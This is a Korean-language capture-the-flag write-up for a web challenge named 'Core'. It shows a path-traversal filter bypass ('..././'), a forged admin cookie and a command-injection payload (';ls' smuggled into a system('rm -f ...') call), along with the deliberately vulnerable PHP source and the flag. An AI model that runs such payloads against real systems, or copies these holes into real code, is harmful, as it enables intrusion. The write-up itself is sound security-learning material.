




# Core

**Description:**
> 핵 실험은 진행 중... :(  
> (Core/Kernel/Nucleus/Hack)

## Write-up

메인 페이지에 접근해보면 핵폭발 후 생기는 버섯구름처럼 보이는 것을 볼 수 있습니다.  
버섯구름 아래에 보면 초록색으로 되어있는 잡초를 볼 수 있고 눌러보면 php 파일이 다운로드 됩니다.

우선 다운로드 되는 경로를 살펴보면 다음과 같습니다.  
/download.php?file=hack  
/download.php?file=the  
/download.php?file=planet

실제로 다운로드 받은 파일을 보면 hack, the, planet와 같이 파일명을 입력하면 php 확장자를 붙여서 다운로드 됩니다.  
따라서 download.php 파일을 다운로드 받기 위해서는 다음과 같이 시도할 수 있습니다.  
/download.php?file=download  
/download.php?file=../download  
하지만, 두 경우 모두 Not Found로 파일을 다운로드 받을 수가 없습니다.

상대 경로로 상위 이동하여 파일을 다운로드 받는 부분이 정상적으로 동작하는지 알기 위해서 다음과 같이 시도하여 정상적으로 파일이 다운로드 되면 상위 경로로 올라가는 "../" 문자열이 필터링되어 있는 것을 추측할 수 있습니다.  
/download.php?file=../hack  
시도한 결과, hack.php 파일이 정상적으로 다운로드가 되었습니다.

이 부분을 우회하기 위해서 "../"를 이중으로 넣어서 우회할 수 있습니다.  
다음과 같이 시도해보면 download.php 파일이 정상적으로 다운로드 되는 것을 볼 수 있습니다.  
/download.php?file=..././download

download.php:  
```
<?php
    $file = isset($_GET['file']) ? $_GET['file'] : false;
    if($file) {
        if(@preg_match("/Core/i", $_GET['file'])) exit("Access Denied!");
        $_GET['file'] = str_replace("../", "", $_GET['file']);

        $split_path = @explode("/", $_GET['file']);
        $path = "";
        for($i=0;$i<count($split_path)-1;$i++) {
            $path .= $split_path[$i]."/";
        }
        $real_path = realpath('files/'.$path);
        if(strpos($real_path, "Core") === false) exit("Access Denied!");
        @$file_path = "files/".$_GET['file'].".php";

        $filesize = @filesize($file_path);
        $path_parts = @pathinfo($file_path);
        $filename = $path_parts['basename'];
        $extension = $path_parts['extension'];

        if(!$filesize) exit("Not Found");
        header("Pragma: public");
        header("Expires: 0");
        header("Content-Type: application/octet-stream");
        header("Content-Disposition: attachment; filename=\"$filename\"");
        header("Content-Transfer-Encoding: binary");
        header("Content-Length: $filesize");
        ob_clean();
        flush();
        readfile($file_path);
    } else {
        print("Access Denied!");
    }
?>
```

download.php 소스 코드를 보면 파일이 다운로드 되는 과정을 볼 수는 있지만 추가적인 정보를 얻기에는 부족합니다.  
다시 처음으로 돌아가서 메인 페이지의 소스 코드를 보면 다음과 같은 코드를 볼 수 있습니다.  
```
.hint:sublime { text-decoration: none; }
```


힌트는 Sublime Text로 메인 페이지의 소스를 Sublime Text로 보면 ADMIN이라는 문자열을 확인할 수 있고 admin으로 파일 다운로드를 시도하면 admin.php 파일을 획득할 수 있도록 마련한 장치입니다.  
/download.php?file=..././admin

admin.php:  
```
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <style type="text/css">
        body { background-color: #1d1d1d; color: #ffffff; padding: 90px; }
        a { text-decoration: none; color: #61646d; padding-left: 30px; }
        h1 { display: inline-block; color: #b20000;}
    </style>
    <title>ADMIN</title>
</head>
<body>
<?php
    @include 'config.php';

    print("<h1>Admin Page</h1>");
    print(""); 
    print("<br>Our website is still under construction. Sorry for the inconvenience...");
    @exec("ls files/",$list);

    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
    print("<h2>Lists...</h2>");
    for($i=0;$i<count($list);$i++) {
        print("<a href='?del=$list[$i]' onclick='alert(\"Unimplemented :(\");'>[DEL]</a> $list[$i]<br>");
    }
?>
</body>
</html>
```

admin.php 파일을 보면 config.php 파일을 확인할 수 있고 동일한 방법으로 다운로드 받아서 파일을 확인할 수 있습니다.  
/download.php?file=..././config

config.php:  
```
<?php
    if($_COOKIE['admin'] != "true") exit("Access Denied!");
?>
```

두 파일의 정보를 바탕으로 'admin' 쿠키 값을 "true"로 설정하고 admin.php 파일에 접근하면 관리자 페이지에 접근할 수 있습니다.  


그리고 admin.php 파일을 보면 다음과 같이 GET 파라미터로 값을 전달 받아서 파일을 삭제하는 부분을 볼 수 있으나, 아직 개발이 완료되지 않아서 전체 삭제가 되지 않도록 "*" 기호는 필터링되어 있고 글자 길이도 3글자가 넘을 경우 실행되지 않도록 처리되어 있는 것을 볼 수 있습니다.  
```
    $del = isset($_GET['del']) ? $_GET['del'] : false;
    if($del) {
        if(@preg_match("/\*/i", $_GET['del'])) exit("Access Denied!");
        if(@strlen($del) <= 3) {
            @system("rm -f files/$_GET[del]");
        }
    }
```

보다 많은 정보를 얻기 위해서 이 부분을 우회하여 명령어가 실행되도록 아래와 같이 시도할 수 있습니다.  
/admin.php?del=;ls  


;ls를 입력하면 system("rm -f files/;ls");가 실행되기 때문에 현재 디렉터리의 파일 목록을 볼 수 있습니다.  
;는 명령어와 명령어 사이에 입력할 경우 두 명령어를 각각 실행할 수 있도록 구분지어 주는 역할을 해줍니다.  
따라서 ls가 실행된 결과를 보면 7h1s_is_f1a9.php 파일을 확인할 수 있습니다.

7h1s_is_f1a9.php 파일을 다운로드 받아서 확인해보면 flag를 획득할 수 있습니다.  
/download.php?file=..././7h1s_is_f1a9

7h1s_is_f1a9.php:  
```
<?php
    print("Access Denied!");
    # Flag is TDCTF{C0R3_H4CK_NUCL3U5}
?>
```

## Flag
TDCTF{C0R3_H4CK_NUCL3U5}
